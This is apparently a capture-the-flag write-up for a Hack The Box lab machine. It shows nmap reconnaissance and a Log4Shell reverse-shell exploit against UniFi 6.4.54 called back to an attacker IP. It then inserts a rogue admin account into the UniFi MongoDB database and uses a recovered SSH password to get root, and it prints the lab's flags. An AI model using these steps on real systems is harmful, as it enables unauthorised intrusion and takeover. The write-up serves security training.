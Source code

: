 ```yaml
---
layout: default
title: Unified
---
```


## TL;DR

We get `RCE` using known exploit on `UniFi`. Then we add user to the `mongo-db` server, and logging to the website. There we can find root password inside ssh settings. 

### Recon

we start as usual with `nmap`, using this command:
```bash
nmap -p- -sV --min-rate=10000 $target
``` 

![nmap](image.png)

As we can see there are several open ports:
```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http            Apache Tomcat (language: en)
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/http        Apache Tomcat (language: en)
8880/tcp open  http            Apache Tomcat (language: en)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Access the webserver and exploit vulnerable version

when accessing the website at port `8080`, we get redirect to port `8443` and can see this page:

![website login page](image-1.png)

We can search for vulnerabilities of `UniFi 6.4.54`, and we find it vulnerable to log4shell.
This git repo [https://github.com/puzzlepeaches/Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi) is jumping to me, we can see it has very simple steps in order to achieve reverse shell on this version.

So, let's follow the steps of the manual installation, and then just execute this command:
```bash
python3 exploit.py -u https://$target:8443 -i 10.10.14.162 -p 770
```

![get reverse shell](image-2.png)

Let's get normal shell, this time we can't use the regular spawning of `tty` using python, because it isn't installed on the system. 

We can use this:
```bash
script /dev/null -c bash
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

Now, let's achieve the user flag:
```bash
unifi@unified:/usr/lib/unifi$ cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

### Privilege escalation

We can follow this article, [https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi).

Using `ps aux` we can see there is mongo-db that is running on port `27117`

```bash
unifi@unified:/usr/lib/unifi$ ps aux | grep mongo
unifi         68  0.1  4.1 1103744 85452 ?       Sl   13:20   0:08 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       2037  0.0  0.0  11468  1112 pts/0    S+   14:29   0:00 grep mongo
```

Let's connect to this server, the default db name is `ace`, this is the command:
```bash
mongo --port 27117 ace
```

After connecting, we enumerate all users using this command, we can append db.`forEach(printjson)` at the end, to print it in easier format:
```bash
db.admin.find();
```

We want to insert another user to `db.admin`, with our hash, so let's generate the hash:
```bash
┌──(agonen㉿kali)-[~/htb/Unified/Log4jUnifi]
└─$ mkpasswd -m sha-512 ourSimplePassword
$6$1RTDf1hc/l8EhVG1$8gMEZhJ4kazHKqvbRw5kRdvZCEF48cAXscqt9fxoeE90sFa1p38shYmlWrP.HLXZ6VDvcD68pP.vQIYCRENYs0
```

And add it to the table, the username will be `elicopter` and password will be `ourSimplePassword`
```bash
db.admin.insert({ "email" : "elicopter@localhost.local","last_site_name" : "default", "name" : "elicopter","time_created" : NumberLong(100019800), "x_shadow" :"$6$1RTDf1hc/l8EhVG1$8gMEZhJ4kazHKqvbRw5kRdvZCEF48cAXscqt9fxoeE90sFa1p38shYmlWrP.HLXZ6VDvcD68pP.vQIYCRENYs0" });
```

![insert new user](image-3.png)

Now, we can login in the login page using our new user `elicopter` and the password `ourSimplePassword`.

After login in, we can go to settings, and search for the ssh password, which we find it to be `NotACrackablePassword4U2022`.

Okay, let's use it to ssh to the system from our machine, and achieve the root password.

![get root flag](image-4.png)

**User Flag:*****`6ced1a6a89e666c0620cdb10262ba127`***

**Root Flag:*****`e50bc93c75b634e4b272d2f771c33681`***
